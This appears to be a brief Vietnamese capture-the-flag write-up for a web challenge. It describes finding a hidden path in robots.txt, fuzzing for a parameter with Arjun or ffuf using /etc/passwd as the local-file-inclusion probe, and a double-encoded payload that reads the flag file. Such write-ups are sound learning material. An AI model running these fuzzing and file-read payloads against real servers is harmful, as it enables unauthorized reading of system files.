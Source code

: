 # giới thiệu
bài này không có gì ngoài 1 cái hình
# solution
truy cập vào /robots.txt sẽ có 1 đường dẫn đến flag nhưng đường dẫn đó không thể truy cập bằng cách thông thường. Tịt
=>tìm parameter có thể sử dụng được bằng Arjun hoặc ffuf -u ```http://34.18.3.149:9001/index.php?FUZZ=/etc/passwd" -w fuzz-lfi-params-list.txt --fs 433```

final payload:
```/?url=%252Ftmp%252FASCWG%252Fflag.txt```
# lưu ý sau này làm những bài như này
tìm paramter,robots.txt

